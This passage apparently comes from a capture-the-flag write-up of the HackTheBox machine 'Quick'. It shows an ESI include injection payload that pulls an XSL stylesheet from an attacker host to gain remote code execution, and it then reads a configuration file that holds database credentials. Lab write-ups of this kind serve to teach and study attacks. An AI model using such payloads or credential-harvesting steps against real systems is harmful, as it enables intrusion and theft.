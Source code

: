 This is the payload for `ticket.php`

```xml
<esi:include+src="http://127.0.0.1/index.php"+stylesheet="http://10.10.14.9:8000/shell88.xsl">+</esi:include>
```

So I created a ticket with `include` tag and that download the `.xsl` file and do the remote code execution.

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-quick/Untitled%2012.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-quick/Untitled%2012.png)

I got the shell.

## Getting 2nd User

While enumerating I found database password.

```nix
sam@quick:/var/www/html$ cat db.php                  
cat db.php
<?php
$conn = new mysqli("localhost","db_adm","db_p4ss","quick");
?>
```
